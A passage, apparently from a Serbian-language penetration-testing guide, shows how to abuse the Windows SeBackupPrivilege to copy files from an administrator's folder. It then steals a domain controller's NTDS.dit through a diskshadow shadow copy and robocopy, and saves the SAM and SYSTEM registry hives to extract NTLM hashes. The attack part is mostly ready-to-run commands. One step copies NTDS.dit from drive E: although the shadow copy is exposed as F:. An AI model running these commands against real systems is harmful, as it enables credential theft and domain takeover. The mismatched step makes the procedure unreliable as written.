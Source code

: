 ```plaintext
Napomena: Promene u lokalnoj sigurnosnoj politici mogu zahtevati ponovno pokretanje sistema da bi stupile na snagu.
```

Nakon što ste omogućili `SeBackupPrivilege`, korisnici ili grupe koje ste dodali će imati privilegiju rezervne kopije fajlova i direktorijuma. Ovo pravo omogućava korisnicima da pristupe i naprave rezervne kopije fajlova i direktorijuma za koje inače nemaju pristup.

```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

3. Pristupite i kopirajte fajlove iz ograničenih direktorijuma, na primer:

```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```

### AD Napad

Direktan pristup fajl sistemu kontrolera domena omogućava krađu baze podataka `NTDS.dit`, koja sadrži sve NTLM heševe za korisnike i računare domena.

#### Korišćenje diskshadow.exe

1. Kreirajte senku (`shadow copy`) diska `C`:

```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```

2. Kopirajte `NTDS.dit` iz sjenovite kopije:

```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Alternativno, koristite `robocopy` za kopiranje fajlova:

```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

3. Izvucite `SYSTEM` i `SAM` za dobijanje heša:

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
